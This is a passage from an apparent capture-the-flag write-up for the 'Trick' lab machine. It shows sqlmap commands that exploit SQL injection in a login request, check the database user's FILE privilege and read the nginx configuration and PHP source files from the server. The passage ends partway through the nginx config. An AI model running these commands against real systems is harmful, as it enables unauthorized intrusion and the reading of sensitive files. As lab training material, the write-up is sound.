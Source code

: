 And yes, that is the password in plain-text, retrieved by a single curl command from an unauthorized user. This is basically as bad as the sharepoint vulnerability going around. Obviously, that's not necessary and the sql makes our job so much easier, but realizing this possible is very helpful. I'll explain exactly why it happens in this case, when we look at the source code.

The SQL injection, lets us in, but the application is basically useless. But SQL does offer other usecases so if we have certain privileges we should check to see what we can do. Capture a login request and send it to sqlmap via `sqlmap -r $request --level 5 --risk 3 --batch`
You can dump all the tables, but nothing of value is there.
We'll check our privileges, get the nginx configuration file and from there we can see where the root of the file is to inspect its source code.

```bash
sqlmap -r $request --privilege
#snip
database management system users privileges:
[*] 'remo'@'localhost' [1]:
    privilege: FILE


#snip

sqlmap -r $request --file-read /etc/nginx/sites-enabled/default
sqlmap -r $request --file-read /var/www/html/payroll/index.php

```


```conf
server {
	listen 80 default_server;
	listen [::]:80 default_server;
	server_name trick.htb;
	root /var/www/html;

	index index.html index.htm index.nginx-debian.html;

	server_name _;

	location / {
		try_files $uri $uri/ =404;
	}

	location ~ \.php$ {
		include snippets/fastcgi-php.conf;
		fastcgi_pass unix:/run/php/php7.3-fpm.sock;
	}
}


server {
	listen 80;
	listen [::]:80;

	server_name preprod-marketing.trick.htb;

	root /var/www/market;
	index index.php;

	location / {
		try_files $uri $uri/ =404;
	}

        location ~ \.php$ {
                include snippets/fastcgi-php.conf;
                fastcgi_pass unix:/run/php/php7.3-fpm-michael.sock;
```